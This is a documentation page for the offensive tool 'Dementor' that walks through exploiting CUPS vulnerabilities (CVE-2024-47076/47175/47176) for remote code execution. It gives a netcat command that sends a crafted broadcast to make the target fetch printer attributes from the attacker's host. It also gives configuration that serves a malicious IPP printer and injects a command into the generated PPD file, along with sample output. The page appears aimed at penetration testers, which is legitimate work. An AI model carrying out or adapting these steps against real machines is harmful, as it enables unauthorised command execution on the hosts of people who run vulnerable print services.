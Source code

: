 .. _example_cups:

Abusing CUPS for RCE
====================

Since version ``1.0.0.dev10``, *Dementor* can be used to exploit `CVE-2024-47076 <https://github.com/OpenPrinting/libcupsfilters/security/advisories/GHSA-w63j-6g73-wmg5>`_
and `CVE-2024-47175 <https://github.com/OpenPrinting/libppd/security/advisories/GHSA-7xfx-47qg-grp6>`_. **However**, several aspects
must be kept in mind before attempting to run the exploit:

.. attention::

    1. You need a vulnerable version of the `cups-browsed` service running
    2. The ``foomatic-db-engine`` must be installed for the RCE to be triggered correctly
    3. You must be able to start a print job on the target machine


Triggering ``get-printer-attributes`` Requests
----------------------------------------------

First things first, let's revisit `Attacking UNIX Systems via CUPS, Part I <https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/>`_
and `CVE-2024-47176 <https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8>`_ again. The general
format of requests that will trigger a ``get-printer-attributes`` request is as follows:

.. code-block:: bnf

    REQUEST := 0 <SPACE> 3 <SPACE> <URL> <SPACE> "<LOCATION>" <SPACE> "<INFO>"

By echoing a specific broadcast string into netcat, we can trigger the target's printer to
send an HTTP request back to us:

.. code-block::
    :caption: Command to trigger a ``get-printer-attributes`` request

    echo '0 3 http://<LOCAL_IP>:<LOCAL_PORT>/printers/data1 "Office" "Printer"' \
        | nc -nu <TARGET_IP> 631

The configuration necessary to capture IPP requests with *Dementor* is:

.. tabs::

    .. tab:: Dementor.toml

        .. code-block:: toml
            :emphasize-lines: 3

            [Dementor]
            # [...]
            IPP = true
            # [...]

    .. tab:: CLI

        .. code-block:: console

            $ Dementor -I "$INTERFACE" -O IPP=On -O IPP.Port=4444

On success, *Dementor* will display the captured request:

.. container:: demo

    .. code-block:: console

        # [...]
        IPP  192.168.56.124  4444  [*] IPP-Request: <GET_PRINTER_ATTRIBUTES> (Version: 2.0, ID: 0x1c)
        IPP  192.168.56.124  4444  [+] Serving IPP printer PRINTER_NAME_HERE
        # [...]

.. note::

    The CUPS client will automatically send the `get-printer-attributes` request when it
    discovers a remote printer via cups-browsed.


Abusing CVE-2024-47175 / CVE-2024-47076
---------------------------------------

To exploit these vulnerabilities, we must configure the command to be injected. (*Dementor* will
display this configured command in the IPP response)

.. tabs::

    .. tab:: Dementor.toml

        .. code-block:: toml
            :emphasize-lines: 3

            [Dementor]
            # [...]
            IPP = true
            # [...]

            [IPP]
            RemoteCmd = "echo 1 > /tmp/I_AM_VULNERABLE"

    .. tab:: CLI

        .. code-block:: console

            $ Dementor -I "$INTERFACE" -O IPP=On -O IPP.Port=4444 \
                -O IPP.RemoteCmd="echo 1 > /tmp/I_AM_VULNERABLE"

After triggering a ``get-printer-attributes`` request, the `cups-browsed` service should show debug output similar to this:

.. figure:: /_static/images/ipp_cups-browsed.png
    :align: center

    `cups-browsed` debug output during remote printer discovery. (version: 2.0.1)

To confirm the injection worked, inspect the PPD file generated in ``/etc/cups/ppd``:

.. figure:: /_static/images/ipp_cups-ppd_file.png
    :align: center

    Generated PPD file contains injected attributes that will be used on the next print attempt.

.. note::

    The next step would be to start a print job using the newly registered printer. However, for
    the RCE to work, `foomatic` must be installed on the target system.

